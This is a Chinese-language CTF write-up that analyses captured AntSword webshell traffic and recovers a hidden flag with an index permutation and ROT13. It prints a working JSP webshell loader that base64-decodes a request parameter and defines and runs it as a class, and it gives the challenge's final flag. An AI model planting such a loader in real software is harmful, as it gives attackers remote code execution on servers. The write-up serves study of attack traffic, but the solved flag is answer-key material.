



## 题目描述
某公司为了提高网络安全防护水平，设置了一台蜜罐，用于识别和分析网络攻击行为。最近，该蜜罐捕获到了一段流量，经过初步分析发现其中存在蚁剑的流量特征。蚁剑是一款常用的远程管理工具，它提供了多种编码器和解码器，用以绕过防火墙和安全检测软件的检测。假设你是该公司的安全专家，请你对这段流量进行深入分析，分析其中的编码和解码过程，找出其中所隐藏的flag。

## 解题


下载附件，得到一个流量包：
打开筛选http流量：


可以看到包并不多，逐个查看流量包，找到一个jsp脚本：
```jsp
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
 
    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("study");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```
观察脚本，并未发现关键信息，继续查看，
在最后一个http流量中找到flag关键字，不过是逆序的：


导出数据得到一个int型数组，可以看到都是数字，并且都小于42（flag长度），猜测这是flag的下标：

```c++
flag_index[] = {40, 17, 35, 22, 28, 26, 8, 5, 19, 13, 4, 34, 21, 12, 36, 41, 37, 42, 30, 11, 23, 16, 29, 24, 18, 31, 20, 15, 3, 25, 7, 27, 38, 14, 6, 39, 32, 33, 2, 1, 9, 10}
```
但是并未发现其他信息，继续查看流量包，找到关键信息：


提取出来得到数组：
```c++
flag_data[] = "prsy6ppr-1qn8nq42r--20sp}7sp219to-{r57or66"
```
观察可以看到有`{}`和`-`，很符合flag格式：
编写脚本恢复flag正确数据位置：
```c++
#include<iostream>

int main()
{
    char flag_data[43] = "prsy6ppr-1qn8nq42r--20sp}7sp219to-{r57or66";
    int flag_index[42] = {40, 17, 35, 22, 28, 26, 8, 5, 19, 13, 4, 34, 21, 12, 36, 41, 37, 42, 30, 11, 23, 16, 29, 24, 18, 31, 20, 15, 3, 25, 7, 27, 38, 14, 6, 39, 32, 33, 2, 1, 9, 10};
    char flag[43] = "";

    for (int i = 0; i < 42; i++)
    {
        int index = flag_index[42 - (i + 1)];
        flag[index - 1] = flag_data[i];
    }
    std::cout << flag << std::endl;
}
// synt{rnrrps2o-q26r-41o0-85q7-p2p69rp71p6s}
```
可以看到答案很接近了，根据经验不难发现，数据是进行了移位，并未刚好13位，
猜测是ROT13：
编写脚本得到flag：
```c++
//ROT13
    for (int k = 0; k < 42; k++){
        if (flag[k] == '{' || flag[k] == '}' || flag[k] == '-' || (flag[k] >= '0' && flag[k] <= '9') )
        {
            continue;
        }
        else
        {
            flag[k] -= 13;
        }
    }
    std::cout << flag;
// flag{eaeecf2b-d26e-41b0-85d7-c2c69ec71c6f}
```

得到`flag{eaeecf2b-d26e-41b0-85d7-c2c69ec71c6f}`